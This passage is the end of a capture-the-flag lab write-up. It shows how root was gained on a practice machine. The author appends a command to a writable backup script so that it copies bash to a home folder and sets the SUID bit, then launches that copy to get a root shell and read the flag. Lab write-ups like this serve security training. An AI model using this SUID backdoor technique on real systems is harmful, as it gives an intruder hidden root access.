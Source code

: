 ```bash
pericles@time:/dev/shm$ cat /usr/bin/timer_backup.sh 
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
cp /bin/bash /home/pericles/rootbash && chmod +s /home/pericles/rootbash
```

That worked, bash was copied and the SUID bit was set:

```bash
pericles@time:/home/pericles$ ls -l
total 2448
-rwsr-sr-x 1 root     root     1183448 Sep 29 19:11 rootbash
drwxr-xr-x 3 pericles pericles    4096 Oct  2  2020 snap
-r-------- 1 pericles pericles      33 Sep 29 05:45 user.txt
```

I can now get a shell with root permissions:

```bash
pericles@time:/home/pericles$ ./rootbash -p
rootbash-5.0# id
uid=1000(pericles) gid=1000(pericles) euid=0(root) egid=0(root) groups=0(root),1000(pericles)
```

There you have the root shell.

## Root Flag

---

It's time to get the root flag:

```bash
rootbash-5.0# cd /root
rootbash-5.0# ls
backup.zip  root.txt  snap  timer_backup.sh
rootbash-5.0# cat root.txt
fa**************************207d
```

# Conclusions

---

This box was fun to solve and I learned a lot. It was not that hard but still required some research. I can recommend trying this machine yourself, it’s also a good practice for the OSCP exam.